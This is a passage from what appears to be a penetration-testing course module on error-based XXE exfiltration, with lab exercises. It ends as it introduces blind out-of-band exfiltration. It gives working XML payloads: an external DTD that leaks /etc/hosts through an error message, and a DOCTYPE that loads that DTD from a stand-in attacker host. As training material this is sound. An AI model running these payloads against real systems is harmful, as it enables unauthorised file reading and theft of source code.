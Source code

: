 Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:
![web_attacks_xxe_cause_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:
![web_attacks_xxe_exfil_error_2](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, **this method is not as reliable as the previous method for reading source files**, as it may have length limitations, and certain special characters may still break it.

## Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

### Out-of-bound Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as **Out-of-bound (OOB) Data Exfiltration**, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE.

